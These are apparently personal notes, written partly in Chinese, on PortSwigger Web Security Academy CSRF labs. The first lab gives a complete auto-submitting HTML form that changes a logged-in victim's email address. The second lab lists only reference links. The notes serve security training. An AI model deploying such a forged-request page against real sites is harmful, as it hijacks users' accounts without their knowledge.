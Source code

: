```yaml
---
title: Cross-site request forgery (CSRF)
description: Cross-site request forgery (CSRF)
last_update:
  date: "2025-08-12T08:00:00+08:00"
---
```


## Lab: CSRF vulnerability with no defenses

| Dimension | Description                                                              |
| --------- | ------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/csrf#how-to-construct-a-csrf-attack |
| Lab       | https://portswigger.net/web-security/csrf/lab-no-defenses                |

基礎題，在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <form
      action="https://0a2200e3041a749c806303be00a900e8.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener3@normal-user.net"
        required
      />
      <button type="submit">Submit</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Lab: CSRF where token validation depends on request method

| Dimension | Description                                                                                                                |
| --------- | -------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-token-validation#common-flaws-in-csrf-token-validation                 |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-methodwp-json |
